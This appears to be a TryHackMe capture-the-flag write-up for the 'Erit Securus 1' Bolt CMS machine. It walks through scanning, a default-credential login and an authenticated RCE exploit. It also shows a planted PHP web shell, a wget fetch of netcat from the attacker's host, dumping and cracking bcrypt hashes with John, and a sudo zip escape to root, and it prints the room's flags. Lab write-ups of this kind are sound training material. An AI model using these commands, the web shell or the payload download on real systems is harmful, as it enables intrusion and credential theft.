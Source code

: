 > Eris Securus | Bolt CMS

# Nmap

nmap -sC -sV -T4 -Pn -vvv -A -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp open  http    syn-ack nginx 1.6.2
|_http-generator: Bolt
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Graece donan, Latine voluptatem vocant. | Erit Securus 1
```

And we got Bolt CMS. And we have an python exploit in searchsploit. But we require an username password and the URL. Looking at the exploit we can see that the path is `/bolt/login` and let's ty basic password as `admin`:`password`. And yep we can login!

Let's run the exploit to get a shell. The 1'st attempt failed but trying again we can execute OS commands.

python3 exploit.py http://10.10.160.217 admin password

```
[+] Retrieving CSRF token to submit the login form
[+] Login token is : o_RU25jNsi9BSSHCD5k-9MP19pDimRx2I5BHvXhsC9I
[+] SESSION INJECTION 
[+] FOUND  : test5
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
Enter OS command , for exit 'quit' : id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:1:"3";s:10:"*user_id";i:1;s:8:"*token";s:64:"34e3f69a6fc2261d519381fba1f6b235abc31e4c27f7df4e2559812eaadd53fc";s:7:"*salt";s:32:"d34f9accf4805f6d1eb98f5d698722af";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-04-25 12:32:10.117842";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:10:"172.17.0.1";s:12:"*useragent";s:22:"python-requests/2.23.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-05-09 12:32:10.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1587817930;}s:10:"_csrf/bolt";s:43:"Ji6slP_bySLAwmXIDIFpSa6VSGpYwnW2c-2Ik5nEcy0";s:5:"stack";a:0:{}s:18:"_csrf/user_profile";s:43:"lDGl_6zEExwY5SW63TUC0BS-v9JHoXhm9HeVpfFglDc";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1587817932;s:1:"c";i:1587817929;s:1:"l";s:1:"0";}}
```

Let's get a shell.

## Steps

1. Execute `echo '<?php system($_GET["c"]);?>'>c.php` in the exploit
2. Transfer nc binary through python server
3. http://$IP/files/cmd.php?c=wget http://10.8.107.21:8000/nc
4. http://$IP/files/cmd.php?c=chmod 755 nc
5. And we got a shell as www-data.

# Privilege Escalation

And in `/var/www/html/app/database` we get the database `bolt.db`.

sqlite3 bolt.db 

.tables

```
bolt_authtoken          bolt_field_value        bolt_pages            
bolt_blocks             bolt_homepage           bolt_relations        
bolt_content_changelog  bolt_log                bolt_showcases        
bolt_cron               bolt_log_change         bolt_taxonomy         
bolt_entries            bolt_log_system         bolt_users            
```

SELECT * FROM bolt_users;

```
1|admin|$2y$10$rIL5OX9ezAEUiD/fWBj2aeXfwZhjFZ5JpYZyJ0NSim/QU6l1.hAze||0|a@a.com|2021-05-14 06:17:43|192.168.100.1|[]|1|||||["root","everyone"]
2|wildone|$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.|Wile E Coyote|0|wild@one.com|2020-04-25 16:03:44|192.168.100.1|[]|1|||||["editor"]
```

We already know admin's password and we got some other IP too. Let's crack wildone's password using John.

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```
snickers         (?)
```

We are in Wileec. Wow he's got .ssh directory.

# Flag 1

```
THM{Hey!_Welcome_in}
```

Let's try logging into the another IP from the reverse shell! 

ssh wileec@192.168.100.1

# Priv Esc

sudo -l

```
(jsmith) NOPASSWD: /usr/bin/zip
```

Looking at GTFO we got a hit.

```
TF=$(mktemp -u)
sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
sudo -u jsmith rm $TF
```

And we are in as jsmith. 

# Flag 2

```
THM{Welcome_Home_Wile_E_Coyote!}
```

# Root Priv Esc

sudo -l

```
Matching Defaults entries for jsmith on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jsmith may run the following commands on Securus:
    (ALL : ALL) NOPASSWD: ALL
```

sudo su -> And we are root!

# Flag 3

```
THM{Great_work!_You_pwned_Erit_Securus_1!}
```